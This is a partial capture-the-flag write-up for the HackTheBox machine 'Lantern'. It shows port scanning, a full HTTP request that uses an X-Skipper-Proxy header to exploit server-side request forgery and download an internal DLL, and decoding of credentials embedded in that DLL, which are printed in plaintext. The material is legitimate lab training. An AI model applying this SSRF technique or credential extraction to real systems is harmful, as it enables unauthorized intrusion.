


# Lantern.htb

HackTheBox | Medium | Week 3 | Season 6 

## Recon

### Scanning and Enumeration

#### Rustscan 

```bash
rustscan -a 10.129.94.69 
```


Rustscan found three open ports SSH, HTTP and 3000.

http://lantern.htb seems like an IT company where we can upload a resume in http://lantern.htb/vacancies

- http://lantern.htb:3000 has some king of lanternLogin page.


- Tried injecting RCE embedded in PDF to get a shell but failed.
- seems like I need to focus on port 3000.

Found these endpoints while browsing console log of http://lantern.htb:3000

```js
<script src="_framework/blazor.server.js"></script>
```

```txt
Information: WebSocket connected to ws://lantern.htb:3000/_blazor?id=zuxDM5hIB0lArsgccqNQkw.
```
#### Burp Extension
- After Googling about Blazor exploits i found this Burpsuite Extension
```html
https://www.aon.com/cyber-solutions/aon_cyber_labs/new_burp_suite_extension_blazortrafficprocessor/
```

Took a hint from official HackTheBox discussion thread
- SSRF on port 80
- on GET /_framework/blazor.boot.json are all blazor dlls,
via /_framework/InternaLantern.dll you can download them

seems to be blazor .Net decompiling again
```
https://www.exploit-db.com/raw/51111
```
- putting the hint on burp and intercepting the response
```
GET /_framework/InternaLantern.dll HTTP/1.1
Host: lantern.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
X-Skipper-Proxy: http://127.0.0.1:5000
Referer: http://lantern.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: keep-alive
```

The ssrf works, download the dll file by requesting response in browser

#### Decompiling DLL File

After Downloading the DLL file in your machine browse it using Jetbrains DotPeek


Here in "InternaLanding.Pages/Internal" you will find base64 encoded employee details, convert it into text using [CyberChef](https://gchq.github.io/CyberChef)  

```base64
"U3lzdGVtIGFkbWluaXN0cmF0b3IsIEZpcnN0IGRheTogMjEvMS8yMDI0LCBJbml0aWFsIGNyZWRlbnRpYWxzIGFkbWluOkFKYkZBX1FAOTI1cDlhcCMyMi4gQXNrIHRvIGNoYW5nZSBhZnRlciBmaXJzdCBsb2dpbiE="
```

After decoding

```txt
System administrator, First day: 21/1/2024, Initial credentials admin:AJbFA_Q@925p9ap#22. Ask to change after first login!
```
- Got the credentials
```
admin:AJbFA_Q@925p9ap#22.
```

